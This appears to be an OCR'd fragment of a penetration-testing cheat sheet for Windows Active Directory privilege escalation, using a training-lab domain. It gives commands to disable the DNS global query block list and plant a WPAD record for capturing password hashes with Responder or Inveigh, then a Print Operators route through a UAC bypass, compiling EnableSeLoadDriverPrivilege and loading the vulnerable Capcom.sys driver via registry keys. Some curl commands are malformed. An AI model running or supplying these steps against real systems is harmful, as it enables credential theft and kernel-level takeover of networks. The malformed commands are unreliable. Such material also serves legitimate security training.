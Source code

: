 **Creating a WPAD Record**

- Disabling the Global Query Block List

```powershell
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

- Adding a WPAD Record
```powershell
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.16.100
```

`Use a tool such as Responder or Inveigh to perform traffic spoofing, and attempt to capture password hashes '
#### Print Operators
#Print_Operators

**Enable EnableSeLoadDriverPrivilege**

`if no there is no SeLoadDriverPrivileg we need to bypass UAC  `
 - Bypass UAC :
 ```ruby
https://github.com/hfiref0x/UACME
```

 - Download  EnableSeLoadDriverPrivilege :
```cmd
curl -o https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp EnableSeLoadDriverPrivilege.cpp
```

 - Compile with cl.exe :
 ```cmd
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

 - Enable EnableSeLoadDriverPrivilege :
```cmd
EnableSeLoadDriverPrivilege.exe
```

 **Load Capcom.sys**
 
 - Download  Capcom.sys:
```powershell
curl Capcom.sys -o https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys
```

  - Add Reference to Driver:
```powershell
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

  - Download DriverView:
```cmd
http://www.nirsoft.net/utils/driverview.html
```
